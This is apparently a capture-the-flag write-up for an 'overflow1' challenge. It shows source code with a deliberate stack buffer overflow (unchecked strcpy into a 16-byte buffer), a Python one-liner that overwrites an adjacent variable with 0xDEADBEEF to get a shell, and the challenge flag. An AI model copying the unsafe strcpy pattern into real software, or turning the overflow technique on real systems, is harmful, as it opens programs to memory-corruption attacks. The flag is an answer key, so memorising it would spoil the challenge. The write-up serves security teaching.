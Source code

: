 I started off by checking how the program worked by running it like a normal user would.

team24254@shell:/problems/overflow1$ ./overflow1

Usage: overflow1 [str]

team24254@shell:/problems/overflow1$ ./overflow1 a

Sorry, secret = 0x00000000

We're also given the source code, and it's not hard to see what we're supposed to do.
We need to overwrite the value of secret with 0xDEADBEEF

.
.
.
char buf[16];
int secret = 0;
strcpy(buf, input);

if (secret == 0xDEADBEEF)
{
    give_shell();
}
.
.
.

So to exploit this we just pass 16 bytes of garbage, then \xef\xbe\xad\xde.

team24254@shell:/problems/overflow1$ ./overflow1 `python -c 'print "A"*16 + "\xef\xbe\xad\xde"'`

$ cat flag.txt

overflow_underflow_youreaflow_imaflow


Flag: overflow_underflow_youreaflow_imaflow
